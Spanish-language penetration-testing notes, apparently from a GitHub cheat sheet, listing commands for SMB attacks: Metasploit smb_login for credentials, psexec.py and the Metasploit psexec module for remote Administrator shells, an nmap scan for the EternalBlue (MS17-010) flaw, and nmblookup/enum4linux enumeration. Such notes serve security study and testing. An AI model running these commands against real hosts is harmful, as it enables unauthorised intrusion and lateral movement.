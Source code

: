 Usamos metasploit con el módulo smb_login visto anteriormente para obtener credenciales

>psexec.py Administrator@192.168.1.1 cmd.exe        //user y el proceso que queremos usar

msf>use exploit/windows/smb/psexec        //usar psexec por metasploit

Eternalblue

>nmap -sV -p445 --script smb-vuln-ms17-010 192.168.1.1        //scan para ver la vulnerabilidad

PSEXEC.PY

|   |   |
|---|---|
|>chmod +x psexec.py|Damos permisos de ejecución|
|>python3 psexec.py Administrator@192.168.1.1|Nos conectamos al host por SMB|

## Linux

nmblookup: Lo mismo que Nbtstat. Herramienta de Samba suite

>nmblookup --help                //Muestra las opciones de la herramienta

>nmblookup -A 192.168.100.1        //Muestra los Workgroups y host que pertenecen

Se pueden usar los mismos comandos que enum de windows: enum4linux